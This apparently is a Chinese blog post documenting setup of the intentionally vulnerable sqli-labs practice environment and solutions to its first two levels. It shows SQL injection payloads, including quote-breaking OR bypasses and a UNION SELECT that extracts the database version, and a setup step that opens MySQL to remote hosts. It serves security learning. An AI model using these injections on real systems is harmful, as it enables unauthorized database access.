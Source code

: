 ```yaml
---
title: sql-labs注入
date: 2018-08-28 11:30:20
tags: [sql注入]
---
```

## SQL注入
sql注入:利用现有程序，使之执行构造的payload.

### 一. 环境搭建
- ubuntu16.04虚拟机
- 更新阿里源 apt-get update
- 安装mysql apt-get install mysql-server mysql-client -y
- 安装apache apt-get install apache2 -y
- 安装git apt-get install git -y
- 项目 cd /var/www && sudo git clone https://github.com/Audi-1/sqli-labs.git sqli-labs  
- 更改项目的mysql配置文件为自己数据库
- 现在在浏览器localhost/sqli-labs已经可以访问到了

##### 问题
- navicat连不上mysql </br>
	注释 /etc/mysql/mysql.cnf.d/mysqld.cnf 中bind 127.0.0.1</br>
	修改select user, host from user;  update user set host = "%" where host = 'localhost';  flush privileges;
- php版本导致mysql_connect()废弃 </br>
	安装phpstorm 配置phpcgi  apt-get install php版本-cgi</br>
	降低版本到php5.6错误仍然在</br>
	第二天重启Phpstrom 打开网页，错误消失</br>
  猜测是降低版本有效，但第一天有缓存</br>

### 二.sqli-labs
参考了大牛的教程https://github.com/lcamry/sqli-labs/blob/master/mysql-injection.pdf

- ** less1 GET-Error based - Single quotes - String </br> **
	php中代码 SELECT * FROM users WHERE id='$id' LIMIT 0,1;
	%20 空格 %27 单引号 %3D 等于号</br>
	一：?id=(select%20id%20from%20users%20where%20username%20%3D"admin") 未成功  	’$id' 注入被单引号包裹，将输入变成了字符串</br>
	二：?id='%20and%20username%3D%27admin 未成功 id=''这个条件未绕过
	想利用id=这个条件或者绕过这个条件</br>
	三：?id='%20or%20username%3D%27admin 成功</br>
	基于二，转换思路，利用or成功绕过</br>
	爆破数据库版本</br>
	?id=-1%27%20%20union%20select%201%2cversion()%2c3%23</br>
	？id=-1'  union select 1,version(),3#</br>
	union必须列一样，所以1和3是为了保持三列

- ** less 2 GET - Error based -Intiger based</br> **
	php中代码 $sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";</br>
	$id未加引号过滤输入</br> ?id=(select%20id%20from%20users%20where%20username%20%3D"admin")成功注入
